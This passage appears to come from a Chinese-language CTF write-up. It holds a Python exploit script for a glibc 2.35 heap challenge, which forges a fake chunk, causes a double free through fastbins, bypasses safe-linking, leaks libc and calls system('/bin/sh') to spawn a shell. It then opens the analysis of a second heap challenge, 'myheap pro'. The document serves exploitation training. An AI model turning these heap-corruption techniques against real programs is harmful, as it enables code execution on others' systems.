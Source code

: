 ```python
print("占满tcache")
# chunk_list[4] 对应 这里paload偏移32位置
# 此时chunk_list使用情况: 6 7 处于使用状态
# 如果free则是free chunk_list[4] 所以我们要构造好这个chunk 让它绕过安全检测 所以我们构造size和prev_inuse位 然后再构造里面的fd让它指向fastbin chunk中第二个chunk
fakechunk = {}
fakechunk["size"] = 0x31
fakechunk["prev_size"] = 0
# 这里随意
fakechunk["chunk_list_size"] = 0x20
fakechunk["isUsed"] = 1
# 看下面的解释
fakechunk["buff"] = base_heap+0xd10
# 要free的是:0x1279d00 链子:0x1279d20 —▸ 0x1279d00 变成:0x1279d00 —▸ 0x1279d20 ◂— 0x1279d00
add(7,0x430,b"aaaaaaaa"*2+p64(fakechunk["prev_size"])+p64(fakechunk["size"])+p64(fakechunk["chunk_list_size"])+p64(fakechunk["isUsed"])+p64(fakechunk["buff"])+p64(0)+p64(0x20))
print("成功构造fake chunk \ndouble free 的chunk指针:",hex(fakechunk["buff"]))

# 构造两个fastbin的情况
for i in range(8,12):
    add(i,0x18,b"a")
add(12,0x48,b"a")
for i in range(8,13):
    delete(i)
# fastbin:0x1603d20 —▸ 0x1603d00 heapbase:0x1603000 所以构造一个0x1603d00被free的情况
# 然后glibc 2.35版本下有fd加密 需要:堆地址>>12然后 ^我想要构造的fd
print("构造成功两个fastbin的情况")
delete(4)
for i in range(8,12):
    add(i,0x18,p64(base_heap>>12^0x404070))
add(13,0x38,b"a")
res = gift()

base_libc = int(res[-15:-1],16) -0x80E50
system_addr = base_libc +0x50D70
print("base_libc:",hex(base_libc))
print("system_addr:",hex(system_addr))
add(14,0x18,b"/bin/sh\x00".ljust(8,b"\x00")+p64(0)+p64(system_addr))
gift()
ia()
```

## ptmalloc2 it's myheap pro (glibc2.35下的exit函数打法)

### 审题

- add函数 malloc一个0x18的chunk(0x20) 属性分别对应:size isUsed buff 并且仅在创建的时候可以写入数据 并且没有检测这个index是否在使用 所以我们可以对一个index无限malloc

  ![image-20240418005442527](https://awaqwqa.github.io/img/xyctf/image-20240418005442527.png)
